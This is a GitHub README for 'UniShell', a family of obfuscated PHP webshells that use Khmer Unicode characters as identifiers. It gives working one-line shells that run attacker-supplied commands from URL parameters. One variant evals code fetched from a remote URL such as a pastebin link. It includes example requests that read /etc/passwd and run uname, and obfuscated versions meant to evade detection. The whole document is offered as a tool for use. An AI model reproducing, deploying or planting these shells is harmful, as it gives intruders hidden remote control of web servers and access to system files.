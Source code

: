 # UniShell
Unishell is a family of php webshells that based on nano shell (https://github.com/s0md3v/nano) which are using khmer unicode characters (ក, ខ, គ) and "yak" objuscation to be extremely stealthy and silently.

### None-Obfuscate
1, Soriya 

	`<?$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]);?>`

### Option
	`ត`  = Any;
	`ល` = Password
	`ម`  = Function
	`ប`  = Command

### Usage

`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command`

For example we want to show the /etc/passwd in the system so we use:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=cat /etc/passwd`

### Screenshot-1
![handler](https://i.imgur.com/9fBhdpm.png)

2, Kolab
	
	`<?$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); eval('?>'.file_get_contents($ា[ដ]));?>`

### Option
	`ត ` = Any;
	`ល` = Password
	`ម ` = Function
	`ប ` = Command
	`ដ`  = Url

### Usage

`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command&ដ=url`

For example we want to show and use the PHP Web Shell from another url, so it will be:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=uname -a&ដ=https://pastebin.com/raw/JfLvh0MG`

### Screenshot-2

![handler](https://i.imgur.com/kLo23hE.png)

### Screenshot-3

![handler](https://i.imgur.com/WKmeVP1.png)

### Obfuscated
In this code below i used yak to obfuscated it.

1. Soriya
`<?php goto JFDwF; NnbkH: $gOzsO[ល] == ធិ៤០៤ & $gOzsO[ម]($gOzsO[ប]); goto ymB7H; B3hLL: if (!($gOzsO[ត] != null)) { goto y8I95; } goto NnbkH; JFDwF: $gOzsO = $_GET; goto B3hLL; ymB7H: y8I95: ?>`

2, Kolab
`<?php goto N6Ag4; KMKUH: $I9NO2[ល] == ធិ៤០៤ & $I9NO2[ម]($I9NO2[ប]); goto cuHHG; N6Ag4: $I9NO2 = $_GET; goto clZU6; clZU6: if (!($I9NO2[ត] != null)) { goto P0yeE; } goto KMKUH; cuHHG: P0yeE: goto hYsr_; hYsr_: eval("\x3f\x3e" . file_get_contents($I9NO2[ដ])); ?>`

### License
If you want to use or modify it, just give me a credit or some donation. xD
